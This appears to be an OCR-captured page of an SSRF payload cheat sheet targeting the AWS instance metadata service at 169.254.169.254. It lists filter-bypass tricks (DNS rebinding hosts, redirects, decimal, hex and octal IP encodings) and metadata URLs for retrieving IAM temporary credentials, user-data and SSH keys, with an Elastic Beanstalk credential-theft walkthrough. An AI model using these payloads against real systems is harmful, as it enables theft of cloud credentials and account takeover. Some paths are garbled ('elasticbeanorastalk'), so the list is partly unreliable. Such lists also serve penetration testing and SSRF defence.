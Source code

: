 Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
DNS record

http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
HTTP redirect

Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
Alternate IP encoding

http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
More urls to include

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
E.g: Jira SSRF leading to AWS info disclosure — https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance

E.g2: Flaws challenge — http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

SSRF URL for AWS Elastic Beanstalk
We retrieve the accountId and region from the API.

http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
We then retrieve the AccessKeyId, SecretAccessKey, and Token from the API.

http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
